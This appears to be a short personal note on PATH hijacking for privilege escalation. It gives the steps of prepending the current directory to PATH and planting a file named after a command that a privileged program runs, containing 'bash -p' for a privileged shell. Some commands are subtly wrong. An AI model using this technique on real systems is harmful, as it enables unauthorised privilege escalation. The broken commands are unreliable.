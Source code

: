 
It is used when detect some program that is use a command and this not in absolute route, you can change the path putting a first match.

1. Add to the first of the queue the actual route

````bash
export PATH=.:$PATH
````

The point represent the actually directory

or maybe this:

````bash
export $(pwd):$PATH
````

````bash
echo $PATH$
````

2. Create a file **with the name of the command to supply**, inside we put this:
````bash
bash -p
````

> bash -p --> Provides a bash with **privileges**

3. Add **executing permission** to the file created

----

# Tags

#pathhijacking #scaleprivilage

---